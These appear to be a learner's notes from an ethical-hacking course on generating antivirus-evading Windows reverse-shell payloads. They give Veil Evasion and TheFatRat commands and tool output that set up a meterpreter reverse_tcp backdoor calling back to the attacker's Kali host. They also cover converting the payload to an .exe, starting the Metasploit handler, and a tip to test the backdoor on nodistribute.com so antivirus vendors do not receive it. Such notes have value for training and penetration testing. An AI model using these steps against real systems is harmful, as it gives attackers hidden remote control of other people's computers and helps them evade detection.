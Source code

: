 ```
Veil/Evasion>: use 22
[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate
 [>] Please enter the base name for output files (default is payload): powerpayload

 [*] Language: powershell
 [*] Payload Module: powershell/meterpreter/rev_tcp
 [*] PowerShell doesn't compile, so you just get text :)
 [*] Source code written to: /var/lib/veil/output/source/powerpayload.bat
 [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/powerpayload.rc

```

- get tool to convert .bat to .exe : 
  - ~~https://www.01net.com/telecharger/utilitaire/manipulation_de_fichier/bat2exe.html~~
  - https://github.com/tokyoneon/B2E

```
┌──(kali㉿kali)-[~/dev/tools]
└─$ wine Portable/Bat_To_Exe_Converter_\(x64\).exe 
```
- converted payload got detected and deleted by IDS/IPS
- use start tcp handler with msfconsole
```
msf6 > resource /home/kali/dev/exploits_files/powerpayload.rc
```

## Use "the fat rat" to create payload
- https://github.com/screetsec/TheFatRat + follow instructions
- **warning** : **don't upload backdoor to virus total**, but upload it to **nodistribute.com**

```
┌──(kali㉿kali)-[~/dev/tools]
└─$ sudo /home/kali/dev/tools/TheFatRat/fatrat
...
	[06]  Create Fud Backdoor 1000% with PwnWinds [Excelent] 
...
 ┌─[TheFatRat]──[~]─[menu]:
 └─────► 6
...
	[2]  Create exe file with C# + Powershell (FUD 100%)
...
 ┌─[TheFatRat]──[~]─[pwnwind]:
 └─────► 2
# set options ... LHOST LPORT, [ 3 ] windows/meterpreter/reverse_tcp 
```

- converted payload got detected and deleted by IDS/IPS, again xD
- source : https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery module 10, lesson 86
```
Note: My Payloads Are Getting Detected By An Antivirus!

A game of cat and mouse ..

Viruses and Antiviruses!

We are going to talk about them in the next video but I just want to mention a few things first.

There is no clear way of bypassing antiviruses!

These methods get outdated all the time and new ones occur. However there are things that you can do to make your payload less detected.

```